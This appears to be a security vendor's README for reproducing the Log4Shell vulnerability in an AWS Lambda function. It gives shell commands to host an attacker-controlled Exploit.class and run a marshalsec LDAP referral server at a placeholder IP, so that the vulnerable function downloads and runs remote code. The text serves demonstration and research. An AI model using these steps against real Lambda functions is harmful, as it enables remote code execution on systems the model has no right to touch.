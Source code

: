 # Log4Shell Serverless
Exploit of the log4shell vulnerability in an AWS Lambda function

# How to reproduce the exploit

## Prerequisite

- Vulnerable AWS Lambda Function
- Exploit class
- LDAP Server (controlled by the attacker)

## Quick Steps

- Serve the Exploit class in a publicly accessible location (let's say http://my-log4shell-attack.com/Exploit.class)
- Launch LDAP server configured to redirect to the Exploit class
- Send payload to the vulnerable function

Once the payload reached Log4j, the vulnerable function will download the Exploit.class and run the code it contains

# Vulnerable function

- Create a AWS Lambda function with Java 11 or Java 8 runtime
- Upload the jar artifact (https://github.com/Contrast-Security-Inc/log4shell_serverless/blob/main/vulnerable_lambda/target/blank-java-1.0-SNAPSHOT.jar)
- Configure the handler `example.Handler::handleRequest`

# Exploit Class and LDAP Server

- Launch a server (for instance an EC2)
- Make the server publicly accessible (let's say at IP XXX.XXX.XXX.XXX)
- Run HTTP server to host the Exploit class
- Run the LDAP server

## Running the HTTP Server
```
# git clone git@github.com:Contrast-Security-Inc/log4shell_serverless.git
# cd log4shell_serverless
# python3 -m http.server 8888
```
### Running the LDAP Server
```
# git clone git@github.com:mbechler/marshalsec.git
# git checkout f645788e6a75155fdfccab1fc036a032212d8484
# mvn clean package -DskipTests
# java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://XXX.XXX.XXX.XXX:8888/#Exploit"
```
